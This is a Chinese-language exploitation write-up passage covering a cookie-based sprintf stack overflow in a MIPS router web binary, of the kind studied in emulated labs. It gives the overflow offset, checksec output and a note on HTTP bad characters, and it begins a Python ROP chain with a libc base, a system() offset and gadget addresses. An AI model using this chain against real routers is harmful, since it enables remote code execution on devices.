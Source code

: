 ```c
sprintf(buf_400h,"%s/%s/postxml","/runtime/session",cookie_ptr);
sprintf(buf_400h,"/htdocs/webinc/fatlady.php\nprefix=%s/%s","/runtime/session",cookie_ptr);
```

同一个函数两次触发溢出，接下来找出溢出点即可

还需要注意的是：

```c
    F_ptr = fopen("/var/tmp/temp.xml","w");
    if (F_ptr == (FILE *)0x0) {
      ptr = "unable to open temp file.";
      goto LAB_00409a64;
    }
```

该函数返回值受服务器上/var/tmp/temp.xml影响，我们在本地建立或移除文件观察返回值，然后对比真实情况下的返回值来判断服务器上到底有没有这个文件(以上操作在仿真系统中进行，该文件是存在的)

最终在以'uid=1234&password='形式的cookie发现溢出点(相对于$s0)为959。

### 漏洞利用

ASLR问题

```bash
$ checksec
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

> 仿真环境开启ASLR，通过http包传送的数据几乎都是可见字符，程序本身的rop链由于存在`\x00`字符会被截断所以是无法利用的，可利用的rop链只有在libc这样的共享库才有，因为每个地址都是4字节满的，所以这里只能关闭ASLR，在书中(路由器0day挖掘)前文刚说libc是动态加载的后面就直接告诉读者libc基地址为`0x2aaf8000`.我都傻了

用shellcode解决ASLR感觉很难：

+ stack地址变化
+ http对很多不可见字符敏感无法发送，这对shellcode编写造成了很大困难(用msf自动生成的试过了，没一个行)
  + 0x20（空格）、0x00（结束符）、0x3a（冒号）、0x3f（问号）、0x3b（分号）、0x0a(n换行符)等
  + 应该只能用rop链

**因此这里假定真实情况就是ASLR关闭**

```python
libc_addr = 0x2aaf8000
system_off = 0x53200

gadget_1 = 0x000328BC  	#move $a0, $s3, jmm $s1
gadget_2 = 0x000158C8  	#add $s0, 1 , jmp $s5
gadget_3 = 0x000159CC	#move $s5, $sp-0x10  move $t9, $s0  move $a0, $s5 jmp $t9
'''
.text:00409A28                 lw      $ra, 0x4E8+var_4($sp)
.text:00409A2C                 move    $v0, $s7
.text:00409A30                 lw      $fp, 0x4E8+var_8($sp)
.text:00409A34                 lw      $s7, 0x4E8+var_C($sp)
.text:00409A38                 lw      $s6, 0x4E8+var_10($sp)
.text:00409A3C                 lw      $s5, 0x4E8+var_14($sp)
.text:00409A40                 lw      $s4, 0x4E8+var_18($sp)
.text:00409A44                 lw      $s3, 0x4E8+var_1C($sp)
.text:00409A48                 lw      $s2, 0x4E8+var_20($sp)
.text:00409A4C                 lw      $s1, 0x4E8+var_24($sp)
.text:00409A50                 lw      $s0, 0x4E8+var_28($sp)
.text:00409A54                 jr      $ra
'''
```
